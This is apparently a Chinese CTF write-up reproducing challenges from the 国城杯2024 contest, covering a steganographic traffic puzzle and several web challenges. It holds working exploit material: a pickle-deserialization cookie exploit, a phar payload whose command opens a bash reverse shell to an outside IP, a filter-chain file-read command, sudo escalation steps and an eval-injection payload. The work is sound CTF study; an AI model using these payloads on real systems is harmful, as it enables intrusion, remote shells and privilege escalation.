# 国城杯2024

web爆0️⃣了，复现学习一下

官方wp：

## 预赛

### Misc

#### Tr4ffIc_w1th_Ste90

题目附件加压得到



根据题目hint，开始流量分析，找小明丢失的视频



搜video，找到视频的流量

追踪UDP流



选择原始数据



根据提示，视频的格式为obs的默认格式，也就是mkv

导出视频后我们可以得到压缩包的密码



解压压缩包，里面有两个文件



一个是加密后的图片，一个是加密算法

根据加密算法我们可以写一个解密脚本，同时根据脚本里的暗示我们可以知道seed在50-70之间，我们输出所有的照片

```python
import numpy as np
import cv2
import sys
import random


def decode(input_image, output_image_prefix, seed):
    np.random.seed(seed)
    encoded_image = cv2.imread(input_image)
    if encoded_image is None:
        print(f"Error: Unable to load image {input_image}")
        exit(1)
    encoded_array = np.asarray(encoded_image)

    row_num = encoded_array.shape[0]
    col_num = encoded_array.shape[1]

    original_row_indices = list(range(row_num))
    original_col_indices = list(range(col_num))
    np.random.shuffle(original_row_indices)
    np.random.shuffle(original_col_indices)

    reversed_row_order = np.argsort(original_row_indices)
    restored_array = encoded_array[reversed_row_order, :]

    reversed_col_order = np.argsort(original_col_indices)
    restored_array = restored_array[:, reversed_col_order]

    output_image = f"{output_image_prefix}_{seed}.png"
    cv2.imwrite(output_image, restored_array)
    print(f"Decoded image with seed {seed} saved as {output_image}")


def main():
    if len(sys.argv)!= 3:
        print('error! Please provide input image path and output image prefix as command-line arguments.')
        exit(1)
    input_image = sys.argv[1]
    output_image_prefix = sys.argv[2]
    for seed in range(50, 71):
        decode(input_image, output_image_prefix, seed)


if __name__ == '__main__':
    main()
    
```



我们可以得到一个二维码

扫码得到

> I randomly found a word list to encrypt the flag. I only remember that Wikipedia said this word list is similar to the NATO phonetic alphabet.
>
> crumpled chairlift freedom chisel island dashboard crucial kickoff crucial chairlift drifter classroom highchair cranky clamshell edict drainage fallout clamshell chatter chairlift goldfish chopper eyetooth endow chairlift edict eyetooth deadbolt fallout egghead chisel eyetooth cranky crucial deadbolt chatter chisel egghead chisel crumpled eyetooth clamshell deadbolt chatter chopper eyetooth classroom chairlift fallout drainage klaxon

根据提示：only remember that Wikipedia said this word list is similar to the NATO phonetic alphabet.

我们找到一个叫**PGP**的单词表



根据单词表我们将单词转换成HEX

```
44 30 67 33 78 47 43 7B 43 30 4E 39 72 41 37 55 4C 61 37 31 30 6E 35 5F 59 30 55 5F 48 61 56 33 5F 41 43 48 31 33 56 33 44 5F 37 48 31 35 5F 39 30 61 4C 7D
```

再转换成中文字符得到flag




### Web

#### Ez_Gallery

> 考点：
>
> 1.带验证码的密码爆破
>
> 2.任意文件读取

首先这道题是一个用户登录界面，需要进行验证码验证



由于这个验证码还是比较清晰的，那我们可以尝试通过ocr识别验证码的方式来进行密码爆破（ddddocr）

详细方法：https://blog.csdn.net/qq1140037586/article/details/128455338

首先给bp装个免费插件

https://github.com/smxiazi/NEW_xp_CAPTCHA/releases/tag/4.2

接着装ddddocr

...

密码和验证码都很简单，爆出来是123456

我们登录进去


随便点开一个，发现存在任意文件读取



可以通过读/proc/self/cmdline 得到源码的位置

##### /proc/self/cmdline 是什么呢？

> 参考：https://zhuanlan.zhihu.com/p/600503111
>
> 如果浏览器对网站可以访问的文件没有限制（也就是说在url或者参数后面加任何文件目录都可以直接读取），可以使用linux下的/proc/self/cmdline来实现：
>
> proc目录中有系统现在所运行的所有进程对应的PID作为名字的文件夹，在各个文件夹中，cmdline文件中存储着启动选中的进程的完整命令（如使用python app.py这个命令执行，则会返回byte形式的python0x00app.py），cwd文件可以获取指定进程号的运行目录，environ可以获取进程号的环境变量，fd目录可以获取指定进程号开启的所有文件描述符，mem文件存储了程序运行的内存信息，但是存在很多不可读的部分，贸然读取会导致程序崩溃，maps文件则存储了堆栈分布情况，可以先查看maps后在通过脚本查看mem相应的内容。proc目录中包含着一个比较特殊的self目录，其中包含的是本进程的信息，也就是说默认是本进程的进程号（但是注意不能使用cat /proc/self/cmdline，因为这样查看的是cat进程的信息）
>
> 所以这里将/etc/passwd/改成/proc/self/cmdline，从而查看打开当前进程所需要的命令，从而发现网页框架是由python编写，存储在app.py中，于是开始一个个地加../，payload：xxx/?file=../app.py



那我们接下来读一下app.py

如果../app.py读不到源码我们可以尝试加多几个../，因为多余的../会被自动省略掉，所以不用担心过多



app.py

```python
import jinja2
from pyramid.config import Configurator
from pyramid.httpexceptions import HTTPFound
from pyramid.response import Response
from pyramid.session import SignedCookieSessionFactory
from wsgiref.simple_server import make_server
from Captcha import captcha_image_view, captcha_store
import re
import os


# 定义用户类
class User:
    def __init__(self, username, password):
        self.username = username
        self.password = password


# 模拟用户数据，这里仅示例一个用户
users = {"admin": User("admin", "123456")}


# 根路由视图，重定向到登录页面
def root_view(request):
    return HTTPFound(location='/login')


# 查看详细信息的视图
def info_view(request):
    # 检查是否已登录（以admin为例），未登录返回403
    if request.session.get('username')!= 'admin':
        return Response("请先登录", status=403)

    file_name = request.params.get('file')
    if file_name:
        file_base, file_extension = os.path.splitext(file_name)
        file_path = os.path.join('/app/static/details/', file_name)
        try:
            with open(file_path, 'r', encoding='utf-8') as f:
                content = f.read()
                print(content)
        except FileNotFoundError:
            content = "文件未找到。"
    else:
        content = "未提供文件名。"

    return {'file_name': file_name, 'content': content, 'file_base': file_base}


# 主页视图
def home_view(request):
    # 检查是否已登录（以admin为例），未登录返回403
    if request.session.get('username')!= 'admin':
        return Response("请先登录", status=403)

    detailtxt = os.listdir('/app/static/details/')
    picture_list = [i[:i.index('.')] for i in detailtxt]
    file_contents = {}
    for picture in picture_list:
        with open(f"/app/static/details/{picture}.txt", "r", encoding='utf-8') as f:
            file_contents[picture] = f.read(80)

    return {'picture_list': picture_list, 'file_contents': file_contents}


# 登录视图
def login_view(request):
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')
        user_captcha = request.POST.get('captcha', '').upper()
        if user_captcha!= captcha_store.get('captcha_text', ''):
            return Response("验证码错误，请重试。")

        user = users.get(username)
        if user and user.password == password:
            request.session['username'] = username
            return Response("登录成功！<a href='/home'>点击进入主页</a>")
        else:
            return Response("用户名或密码错误。")

    return {}


# shell命令执行视图（有一定安全限制的示例）
def shell_view(request):
    if request.session.get('username')!= 'admin':
        return Response("请先登录", status=403)

    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*', r'.*count.*', r'.*[0-9].*', r'.*\..*', r'.*soft.*', r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')

    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result!= None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')


def main():
    session_factory = SignedCookieSessionFactory('secret_key')
    with Configurator(session_factory=session_factory) as config:
        config.include('pyramid_chameleon')  # 添加渲染模板
        config.add_static_view(name='static', path='/app/static')
        config.set_default_permission('view')  # 设置默认权限为view

        # 注册路由
        config.add_route('root', '/')
        config.add_route('captcha', '/captcha')
        config.add_route('home', '/home')
        config.add_route('info', '/info')
        config.add_route('login', '/login')
        config.add_route('shell', '/shell')

        # 注册视图
        config.add_view(root_view, route_name='root')
        config.add_view(captcha_image_view, route_name='captcha')
        config.add_view(home_view, route_name='home', renderer='home.pt', permission='view')
        config.add_view(info_view, route_name='info', renderer='details.pt', permission='view')
        config.add_view(login_view, route_name='login', renderer='login.pt')
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')

        config.scan()
        app = config.make_wsgi_app()
    return app


if __name__ == "__main__":
    app = main()
    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()
```

发现shell存在ssti注入

```python
def shell_view(request):
    if request.session.get('username')!= 'admin':
        return Response("请先登录", status=403)

    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*', r'.*count.*', r'.*[0-9].*', r'.*\..*', r'.*soft.*', r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')

    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result!= None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')

```

存在过滤

```
r'.*length.*', r'.*count.*', r'.*[0-9].*', r'.*\..*', r'.*soft.*', r'.*%.*'
```

正则解释：

> r'.*length.*'
>
> - 含义：`.*` 表示匹配任意数量（包括零个）的任意字符。这个正则表达式整体的意思是匹配包含 `length` 这个字符串的任意字符串。也就是说，只要在某个字符串中能找到 `length` 字样，不管它前后是什么其他字符，都能被匹配到。
> - 示例：像 `"the length of the rope"`、`"lengthy process"`、`"abc length 123"` 等这样包含 `length` 的字符串都可以被匹配。
>
> r'.*count.*'
>
> - 含义：同理，它是用于匹配包含 `count` 字符串的任意字符串。不管 `count` 前后有什么其他字符，只要字符串里出现了 `count` 就行。
> - 示例：诸如 `"count the numbers"`、`"total count"`、`"abc count xyz"` 这类包含 `count` 的字符串都符合匹配规则。
>
> r'.*[0-9].*'
>
> - 含义：`[0-9]` 表示匹配任意一个数字（0 到 9 中的某一个），而前后的 `.*` 表示在这个数字的前后可以有任意数量的任意字符。整体就是匹配只要包含任意一个数字的任意字符串。
> - 示例：像 `"abc1def"`、`"123"` （本身就是数字也算，因为前后的 `.*` 可以匹配零个字符）、`"test 45 test"` 等包含数字的字符串都能被匹配。
>
> r'.*..*'
>
> - 含义：前面已经解释过，它用于匹配包含小数点且小数点前后可以有任意内容的字符串。第一个 `.*` 匹配小数点之前的任意内容（可以为空），`\.` 匹配小数点这个字符本身，后面的 `.*` 匹配小数点之后的任意内容（同样可以为空）。
> - 示例：例如 `"abc.def"`、`"123.456"` 、`".test"` 等符合该模式的字符串都能匹配到。
>
> r'.*soft.*'
>
> - 含义：旨在匹配包含 `soft` 字符串的任意字符串，不管 `soft` 前后是何种其他字符，只要字符串中有 `soft` 即可。
> - 示例：像 `"soft toy"`、`"software"`、`"abc soft xyz"` 这样含有 `soft` 的字符串都可以被匹配。
>
> r'.*%.*'
>
> - 含义：用于匹配包含 `%` 字符的任意字符串，即只要字符串里出现了 `%` 符号，不管其前后是什么内容都能被这个正则表达式匹配。
> - 示例：比如 `"50%"`、`"the percentage is 30%"`、`"abc%def"` 等包含 `%` 的字符串都满足匹配条件。

这道题没有回显，我们可以考虑盲注，写文件，反弹shell

payload:

```

```


## 决赛

### web

#### mountain

> Python Bottle框架伪造session打pickle反序列化

拿到题目看一下源码，有hint



访问/display



根据提示，尝试用photo参数读图片


猜测应该有任意文件读取

读一下/etc/passwd



接下来看看能不能读源码

先读环境变量/proc/self/cmdline，发现被waf了



再试试直接读/proc/1/cmdline（self被waf了）



得到源码位置，我们直接读

/apppppp/app.py



拿到源码

```python
from bottle import Bottle, route, run, template, request, response
from config.D0g3_GC import Mountain
import os
import re


messages = []

@route("/")
def home():
    return template("index")


@route("/hello")
def hello_world():
    try:
        session = request.get_cookie("name", secret=Mountain)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=Mountain)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "hacker!!! I've caught you"


@route("/display")
def get_image():
    photo = request.query.get('photo')
    if photo is None:
        return template('display')
    if re.search("^../|environ|self", photo):
        return "Hacker!!! I'll catch you no matter what you do!!!"
    requested_path = os.path.join(os.getcwd(), "picture", photo)
    try:
        if photo.endswith('.png'):
            default_png_path = "/appppp/picture/"
            pngrequested_path = default_png_path+photo
            with open(pngrequested_path, 'rb') as f:
                tfile = f.read()
            response.content_type = 'image/png'
        else:
            with open(requested_path) as f:
                tfile = f.read()
    except Exception as e:
        return "you have some errors, continue to try again"
    return tfile


@route("/admin")
def admin():
    session = request.get_cookie("name", secret=Mountain)
    if session and session["name"] == "admin":
        return template("administator", messages=messages)
    else:
        return "No permission!!!!"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8089)
```

这里是导入的是构造cookie的key

```
from config.D0g3_GC import Mountain
```

key可以通过任意文件读取读到

/appppp/config/D0g3_GC.py



通过代码我们可以发现，哪怕我们构造出admin进入到/admin路由那我们其实也不能得到什么

事实上这是一道pickle反序列化的题目





我们如果跟进get_cookie方法(/admin和/hello都有)我们可以发现



在这个get_cookie方法里面会对cookie中的数据进行pickle反序列化

也就是说我们可以通过他就可以进行任何命令的执行

exp

```python
from bottle import route, run,response
import os


Mountain = "123"

class exp(object):
    def __reduce__(self):
        return (eval, ("__import__('os').popen('calc').read()",))


@route("/")
def index():
        session = exp()
        response.set_cookie("name", session, secret=Mountain)
        return "success"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="127.0.0.1", port=8081)
```

弹shell拿flag



#### 图片查看器

> 考点：1.信息收集 2.filterchain读文件 3.phar反序列化 4.提权



拿到题目是一个名字输入器，但这玩意没什么用

随便输一个名字就会进入到/trans1t.php



我们先不急着去挑战，先看看这个页面有没有什么hint



提示有东西在hI3t.php,但是我们没办法直接访问

接着点来到挑战来到/chal13nge.php



是一个图片上传，我们再查看一下源代码



结合刚刚看到的hI3t.php，猜测大概率是要想办法读hI3t.php

再看看这个文件上传，再上传成功后可以进行文件信息的查询，文件信息查询使用的方法很可能存在filter链的漏洞

这里是关于oracle的文件读取漏洞

> [PHP Filter链——基于oracle的文件读取攻击 - 先知社区](https://xz.aliyun.com/t/12939?time__1311=GqGxuD9Qi%3Dn4lrzG7Dy7FD8RAg4xYubPpD)
>
> 自动化工具：https://github.com/synacktiv/php_filter_chains_oracle_exploit

```
python filters_chain_oracle_exploit.py --target http://125.70.243.22:31345/chal13nge.php --file '/var/www/html/hI3t.php' --parameter image_path

//--target 目标地址 --file 要读的文件地址 --parameter 要注入的参数
```

'

访问/x@1.php



我们可以看到一个后门类backdoor，通过它我们可以执行任意的命令

那我们怎么调用这个后门类呢？

结合刚刚的文件上传和文件信息查询，我们可以想到phar反序列化

```php
<?php
 
class backdoor
{
    public $cmd;
 
    function __destruct()
    {
        $cmd = $this->cmd;
        system($cmd);
    }
}
 
$a=new backdoor();
$a->cmd='bash -i >& /dev/tcp/106.55.168.231/7777 0>&1"'; //弹个shell
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->setStub("<php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

接着我们可通过抓包修改文件后缀的方法上传我们的phar文件




上传成功

我们接着读phar文件





成功弹shell



尝试读flag发现要提权

通过 **sudo -l** 可以发现有一个check.sh文件具有sudo权限



执行check.sh会运行run.sh



也就是说我们可以通过写一个run.sh来读flag

```
echo "cat /root/flag" > /tmp/rootscripts/run.sh
chmod 777 /tmp/rootscripts/run.sh
sudo /tmp/rootscripts/check.sh "/tmp/rootscripts"
```



拿到flag


题外

/chal13nge.php的源码

```php
<?php
error_reporting(0);
include "class.php";

if (isset($_POST['image_path'])) {
    $image_path = $_POST['image_path'];
    echo "The owner ID of the file is: ";
    echo fileowner($image_path)."<br><br>";
    echo "文件信息如下：". "<br>";
    $m = getimagesize($image_path);
    if ($m) {
        echo "宽度: " . $m[0] . " 像素<br>";
        echo "高度: " . $m[1] . " 像素<br>";
        echo "类型: " . $m[2] . "<br>";
        echo "HTML 属性: " . $m[3] . "<br>";
        echo "MIME 类型: " . $m['mime'] . "<br>";
    } else {
        echo "无法获取图像信息，请确保文件为有效的图像格式。";
    }
}

$allowed_extensions = ['jpg', 'jpeg', 'gif', 'png'];
$upload_dir = __DIR__ . '/uploads/';
if ($_SERVER['REQUEST_METHOD'] == 'POST' && isset($_FILES['image'])) {
    $file = $_FILES['image'];
    $file_ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));

    if (in_array($file_ext, $allowed_extensions)) {
        $upload_path = $upload_dir . basename($file['name']);

        if (move_uploaded_file($file['tmp_name'], $upload_path)) {
            echo "上传成功！路径: " . 'uploads/' . basename($file['name']);
        } else {
            echo "文件上传失败，请重试。";
        }
    } else {
        echo "不支持的文件类型，仅支持: " . implode(", ", $allowed_extensions);
    }
}
?>
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>图片上传与信息获取</title>
</head>
<body>
<h2>图片上传</h2>
<form action="" method="post" enctype="multipart/form-data">
    <input type="file" name="image" required>
    <button type="submit">上传图片</button>
</form>
<h2>获取图片信息</h2>
<form action="" method="post">
    <label for="image_path">请输入图片路径：</label>
    <input type="text" name="image_path" required>
    <button type="submit">获取图片信息</button>
</form>
</body>
<!--只需要从一个文件中获取到关键信息，这个文件在哪儿呢-->
```

从源码我们可以看到关于照片的信息查询使用的是getimagesize函数，而且没有对传入的参数进行过滤

而getimagesize也是受filter链影响的函数之一



### [awdp]

#### Chemical_Plant

##### 攻击方法

FeedbackService.php

```php
<?php
error_reporting(0);
class FeedbackService {
    private $db;

    public function __construct($dbConnection) {
        $this->db = $dbConnection;
    }

    public function addFeedbackByUserId($user_id, $feedback) {
        // 预处理
        $stmt = $this->db->prepare("INSERT INTO feedback (userid, feedback) VALUES (?, ?)");
        $stmt->bind_param("ss", $user_id, $feedback);

        // 执行插入操作
        if ($stmt->execute()) {
            return true;
        } else {
            return false;
        }
    }

    public function getEmailById($id) {
        // 预处理
        $stmt = $this->db->prepare("SELECT userid FROM feedback WHERE id = ?");
        $stmt->bind_param("i", $id);
        // 执行查找操作
        if ($stmt->execute()) {
            $result = $stmt->get_result();
            if ($result->num_rows > 0) {
                $row = $result->fetch_assoc();
                $arr = stripslashes($row['userid']);
                eval('$arr='.$arr.';');
                return $arr;
            } else {
                return null;
            }
        } else {
            return false;
        }
    }
}

?>

```

在FeedbackService.php的getEmailById方法中的存在eval，假如arr可控，那我们就可以进行任意命令执行

那我们继续往上看

```
$arr = stripslashes($row['userid']);
```

变量arr来源于数据库查表id返回的结果中的userid

假如说我们可以提前在userid中写入我们要执行的命令，再通过id查询，就可以进行任意命令的执行

写入数据库的命令我们可以在FeedbackService.php的addFeedbackByUserId方法中找到

```
public function addFeedbackByUserId($user_id, $feedback) {
        // 预处理
        $stmt = $this->db->prepare("INSERT INTO feedback (userid, feedback) VALUES (?, ?)");
        $stmt->bind_param("ss", $user_id, $feedback);

        // 执行插入操作
        if ($stmt->execute()) {
            return true;
        } else {
            return false;
        }
    }
```

这里通过贫拼接的方式将user_id拼接到sql语句中并执行

那我们接下就需要找到哪里调用addFeedbackByUserId方法



在services.php里进行用户反馈内容提交时，没有进行任何过滤就调用addFeedbackByUserId方法写入

那我们执行个whoami试试


命令为什么要这样写呢

```
eval('$arr='.$arr.';');
```

因为命令执行的时候进行了简单的拼接

写入数据后我们接下来就要看看怎样调用getEmailById方法进行数据库id查询

controller.php

```php
<?php

// 引入类文件
require_once 'NewsService.php';
require_once 'FeedbackService.php';
require_once'dbconnect.php';
require_once 'news_data.php';

$db = new DBConnect();
$connection = $db->getConnection();
$NewsService = new NewsService($news_items);
$FeedbackService = new FeedbackService($connection);

$className = isset($_GET['c']) ? $_GET['c'] : null;
$methodName = isset($_GET['m']) ? $_GET['m'] : null;
$id = isset($_GET['id']) ? $_GET['id'] : null;


if ($className && $methodName) {
    if ($className === 'NewsService' && method_exists($NewsService, $methodName))
    {
        echo $NewsService->$methodName($id);
    }
    elseif ($className === 'FeedbackService' && method_exists($FeedbackService, $methodName))
    {
        echo $FeedbackService->$methodName($id);
    } else {
        echo "无效的类或方法";
    }
} else {
    echo "缺少类或方法参数";
}


?>

```

在controller.php里面可以通调用FeedbackService.php和NewsService.php中的方法

```
$className = isset($_GET['c']) ? $_GET['c'] : null;
$methodName = isset($_GET['m']) ? $_GET['m'] : null;
$id = isset($_GET['id']) ? $_GET['id'] : null;
```

通过get传参即可调用getEmailById方法

payload:

```
c=FeedbackService&m=getEmailById&id=0
```

这个id我们其实并不清楚，可以爆破或者一个个试试，反正不多



命令成功执行，接下来只需要读flag就行了


